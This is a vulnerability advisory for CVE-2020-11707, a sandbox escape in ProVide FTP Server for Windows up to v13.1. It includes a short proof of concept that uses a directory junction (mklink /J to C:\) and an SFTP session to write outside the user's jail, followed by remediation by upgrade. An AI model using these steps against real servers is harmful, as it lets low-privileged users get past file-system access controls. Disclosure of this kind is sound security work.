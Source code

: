 ```yaml
---
layout: default
parent: ProVide FTP Server for Windows
nav_order: 7
title: CVE-2020-11707 - Jail Escape (Privilege Escalation) via Symlink
---
```


# Jail Escape via Symlink

## Summary

It was identified that ProVide FTP Server (formerly zFTP) for Windows, doesn't enforce permission over Windows Symlinks or Junctions. As a result, a low privileged user (non-admin), can craft a Junction Link in a directory he has full control, breaking out of the sandbox.

## VulDB-Like Summary

A vulnerability has been found in ProVide FTP Server (formerly zFTP) for Windows up to v13.1 and classified as problematic. This vulnerability affects some unknown functionality. The manipulation with an unknown input leads to a sandbox bypass vulnerability. The CWE definition for the vulnerability is CWE-284. As an impact it is known to affect confidentiality, integrity, and availability.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11707. The attack should be launched initiated locally. The exploitation needs multiple authentications to be performed. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

#### User 1 - Low Privileged FTP User

Root Directory: C:\Users\lowpriv\Desktop\
Permission on Root Directory: 
* Files: Read, Write, Delete, Append 
* Dirs: List, Make, Delete, +Subdirs

#### User 2 - Low Privileged Windows User

Windows User: lowpriv
Standard User, no admin rights

```
C:\Users\lowpriv\Desktop> whoami
lowpriv
C:\Users\lowpriv\Desktop> mklink /J escape C:\
Junction created for escape <<===>> C:\
C:\Users\lowpriv\Desktop> mkdir C:\Windows\security\audit\pwnd
Access is denied.
C:\Users\lowpriv\Desktop> sftp lowpriv@127.0.0.1
Connected to lowpriv@127.0.0.1.
sftp> dir
Google Chrome.lnk  desktop.ini        escape
sftp> mkdir /escape/Windows/security/audit/pwnd
sftp> cd /escape/Windows/security/audit/pwnd
sftp> pwd
Remote working directory: /escape/Windows/security/audit/pwnd/
sftp>
```

## Remediation

Updating the software to v14.0 or higher should solve the issue.

## References

* https://cwe.mitre.org/data/definitions/284.html
* https://cwe.mitre.org/data/definitions/501.html
* https://cwe.mitre.org/data/definitions/266.html 
